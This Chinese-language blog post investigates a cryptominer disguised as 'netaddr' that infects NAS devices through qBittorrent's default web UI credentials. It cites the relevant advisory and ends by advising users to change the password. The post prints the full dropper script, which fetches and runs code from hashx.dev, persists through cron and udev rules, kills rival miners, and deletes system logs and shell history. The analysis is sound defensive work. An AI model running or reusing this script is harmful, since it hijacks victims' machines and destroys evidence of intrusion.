







# 用qB默认密码，让nas变成矿场

# 开场白
nas风扇为何深夜发出异响？  
进程管理中的`netaddr`是为何物？  
CPU为何常年高温？  
这一切的背后是良心的泯灭，还是道德的沦丧，还是人性的扭曲？

# 望
最近经常看见有群友反馈，说是一个叫`netaddr`的进程占用极高  
甚至让CPU温度长期保持在95度以上

出于好奇我寻访到了当地的群友，开启了本次的探索之旅  

> 群友A：  
> 最近我的nas深夜经常发出奇怪的声音
 
> 群友B:  
> 最近我的nas里经常有一个叫`netaddr`的进程莫名其妙出现了

当地群友传言，这肯定是nas系统在挖矿，果然免费的就是最贵的

# 闻
于是出于好奇，我进入了群友的nas，打开了资源监控  


映入眼帘的就是那群友说的，`netaddr`占用了大量的CPU  
就如同跗骨之蛆一般，即便是重启，过一阵子也会重新出现    

进入ssh查看了一下终端  
  
这个进程，似乎是使用qBittorrent用户运行的  

问了一下群友，群友一致表示，确实是有安装这个叫qBittorrent的应用  
  
点开应用一看，应用介绍的首句赫然写着：  
> 默认用户名：admin，默认密码：adminadmin  


# 问
这个普遍的问题，在互联网上应该有其他人也发觉了吧？  
但当我问谷歌，只有一位博主有提及到  
  

但是他也没有发现具体原因是什么  
   
只是发现，关闭QB容器后，就能解决这个问题  
一切的矛头都指向了qBittorrent

# 切
在qBittorrent的开源代码仓库中，找到了原因  
https://github.com/qbittorrent/qBittorrent/issues/18731  
https://github.com/advisories/GHSA-vchq-5hmx-6hmp  
> All versions of the qBittorrent client through 4.5.5 use default credentials when the web user interface is enabled. 
> 
> The administrator is not forced to change the default credentials. 
> 
> As of 4.5.5, this issue has not been fixed. 
> 
> A remote attacker can use the default credentials to authenticate and execute arbitrary operating system commands using the "external program" feature in the web user interface. 
> 
> This was reportedly exploited in the wild in March 2023.

大意就是，远程攻击者可以使用默认用户名密码，通过修改"运行外部程序"运行恶意程序  


# 关于netaddr
这个脚本通过移除定时任务、删除文件、移除容器、停止系统服务等行为，将同类的竞争对手赶尽杀绝  
再通过定时任务等方式，将该恶意脚本持久化  
一个显著的特征就是，挖矿程序以`netaddr`这个名称鱼目混珠，这也是近期频现神秘的`netaddr`占用大量资源的根本原因  
```shell
#!/bin/sh
crontab -r >/dev/null 2>&1
(if sudo -n true; then for crons in $(sudo find /etc/cron* -type f); do sudo rm $crons; done; elif [ "$(id -u)" -eq 0 ]; then for crons in $(find /etc/cron* -type f); do rm $crons; done; fi) >/dev/null 2>&1
(if sudo -n true; then echo 0 \* \* \* \* root sh -c "\"(curl -skL https://hashx.dev || wget --no-check-certificate -qO - https://hashx.dev || lwp-request https://hashx.dev) | sh"\" | sudo tee /etc/cron.d/mdadm; elif [ "$(id -u)" -eq 0 ]; then echo 0 \* \* \* \* root sh -c "\"(curl -skL https://hashx.dev || wget --no-check-certificate -qO - https://hashx.dev || lwp-request https://hashx.dev) | sh"\" | tee /etc/cron.d/mdadm; fi) >/dev/null 2>&1
UDEV='SUBSYSTEM=="net", KERNEL!="lo", RUN+="echo 0 \* \* \* \* root sh -c "\"(curl -skL https://hashx.dev || wget --no-check-certificate -qO - https://hashx.dev || lwp-request https://hashx.dev) | sh"\" | (sudo tee /etc/cron.d/mdadm || tee /etc/cron.d/mdadm)"'
(if sudo -n true; then echo $UDEV | sudo tee /etc/udev/rules.d/mdadm; elif [ "$(id -u)" -eq 0 ]; then echo $UDEV | tee /etc/udev/rules.d/mdadm; fi) >/dev/null 2>&1
(ps aux | grep -v grep | grep -aE '[.][s][h]' | awk ' {print $2}' | xargs -I % kill -9 %) >/dev/null 2>&1
(if sudo -n true; then sudo chattr -i /usr/bin/hostctld; fi) >/dev/null 2>&1
(find /dev/shm -type f -exec rm -rf {} \;) >/dev/null 2>&1
(find /tmp -type f -exec rm -rf {} \;) >/dev/null 2>&1
(rm -rf ${HOME}/.local/.c) >/dev/null 2>&1
(rm -rf /dev/shm/.net-io/ /opt/.net/ ~/.config/cron” and ~/.local/bin || sudo rm -rf /dev/shm/.net-io/ /opt/.net/ ~/.config/cron” and ~/.local/bin) >/dev/null 2>&1
(docker stop watchtower tm ; docker rm watchtower tm ; docker stop traffmonetizer) >/dev/null 2>&1
(if sudo -n true && command -v systemctl; then sudo systemctl stop sshb; sudo systemctl disable sshb; sudo systemctl stop log_rotate.service; sudo systemctl disable log_rotate.service; sudo systemctl stop c3pool_miner; sudo systemctl disable c3pool_miner; sudo systemctl stop journalctld; sudo systemctl disable journalctld; sudo systemctl stop hostctld; sudo systemctl disable hostctld; elif [ "$(id -u)" -eq 0 ]; then systemctl stop sshb; systemctl disable sshb; systemctl stop log_rotate.service; systemctl disable log_rotate.service; systemctl stop c3pool_miner; systemctl disable c3pool_miner; systemctl stop journalctld; systemctl disable journalctld; systemctl stop hostctld; systemctl disable hostctld; fi) >/dev/null 2>&1
(pkill -f /bin/xm; rm -rf /bin/xm; pkill -f /bin/wxm; rm -rf /bin/wxm; pkill -f /tmp/.x111/x; rm -rf /tmp/.x111/x) >/dev/null 2>&1
(for badboy in net-io top perfcc pwnkit net_ioaarch64 efm linuxsys miner gitlabw xmp juiceSSH khnug Linux2 kthreaddi kkssl cnrig stratum vscode runsv puma xmrig c3pool kthreaddk supportxmr xmr kthreaddw klibsystem4 kworkerr ipv6_addrconfd ksoftriqd logrotate log_rotate doai_eater SyGIcPtf netsys logsysd logsd auditd journalctld journald xmw xm lg-musl-x86 systemd-net Y3Eh agent_linux hostctld lr_bionic lr_focal lr_linux processlib2.so processlib.so rbmx rfmx rotate rotate_cn_rt rotate_low xmrig_arm64 xmrig_freebsd; do ps aux | grep -v grep | grep $badboy | awk ' {print $2}' | xargs -I % kill -9 %; done)  >/dev/null 2>&1
(for port in 3333 4444 5555 7777 14444 5790 45700 2222 9999 20580 13531 9021 9022 4447 9000 13131 13337 13338 13339 19951 44521 10900 63256 11288 7331; do ss -tpn "dst :$port" | grep -Po 'pid=\K\d+' | xargs -r kill; done)  >/dev/null 2>&1
(for thug in 95.216.88.55 146.70.120.58 50.7.74.173 129.13.131.140 199.58.81.140 212.47.244.38 54.187.140.5 173.212.220.247 193.168.143.199 198.211.126.180 154.213.187.153 173.212.220.247 82.153.138.25 157.245.193.241 45.61.143.47 165.22.195.35 165.227.63.241 164.90.149.104 164.90.149.104 192.241.144.69 141.95.72.60 141.95.72.61 141.95.72.59 104.243.43.115 104.243.33.118 139.99.123.196 139.99.124.170 139.99.125.38 141.94.96.144 141.94.96.71 141.94.96.195; do for pid in $(ss -tnp | grep "$thug" | awk '{print $6}' | cut -d',' -f2 | cut -d'=' -f2 | sort -u); do kill -9 $pid; done; done) >/dev/null 2>&1
(ps -eo pid,cmd | grep '/bin/bash -i >/dev/tcp' | awk '{print $1}' | xargs -I % kill -9 %) >/dev/null 2>&1
(ps -eo pid,cmd | grep 'import pty;pty.spawn' | awk '{print $1}' | xargs -I % kill -9 %) >/dev/null 2>&1
((curl -skL https://hashx.dev/fun || wget --no-check-certificate -qO - https://hashx.dev/fun || lwp-request https://hashx.dev/fun) | bash) >/dev/null 2>&1
RUN=$(ps -ef | grep 'netaddr' | grep -v 'defunct' | grep -v 'grep' | wc -l)
if [ $RUN -gt 0 ]; then
    exit 1
fi
(ps -eo pid,%cpu --sort=-%cpu | awk '$2 > 80 {print $1}' | xargs -I % kill -9 %) >/dev/null 2>&1
(curl -ksL https://hashx.dev/netaddr -o /tmp/netaddr || wget --no-check-certificate -qO /tmp/netaddr https://hashx.dev/netaddr || lwp-download https://hashx.dev/netaddr /tmp/netaddr)
(curl -ksL https://hashx.dev/netaddra -o /tmp/netaddra || wget --no-check-certificate -qO /tmp/netaddra https://hashx.dev/netaddra || lwp-download https://hashx.dev/netaddra /tmp/netaddra)
(curl -ksL https://hashx.dev/netaddrf -o /tmp/netaddrf || wget --no-check-certificate -qO /tmp/netaddrf https://hashx.dev/netaddrf || lwp-download https://hashx.dev/netaddrf /tmp/netaddrf)
cd /tmp;chmod +x netaddr*;./netaddr || ./netaddra || ./netaddrf;rm -rf netaddr*
(if sudo -n true; then for logs in $(sudo find /var/log -type f); do sudo rm $logs; done; elif [ "$(id -u)" -eq 0 ]; then for logs in $(find /var/log -type f); do rm $logs; done; fi) >/dev/null 2>&1
(rm $HOME/.bash_history) >/dev/null 2>&1
(history -c) >/dev/null 2>&1
```
得益于Linux优秀的权限控制，在未取得root权限时，持久化等操作均不能生效    
索幸本次观察到的`netaddr`都是使用qBittorrent用户运行的  

# 结束语
QB有风险，使用需谨慎  
要想用的欢，就把密码换

至于群友们后来怎么样了  
重装QB应用套件修改默认密码后再也没被`netaddr`缠上

所以fnOS官方什么时候给“资源监控-进程”那边加一列"用户名称"？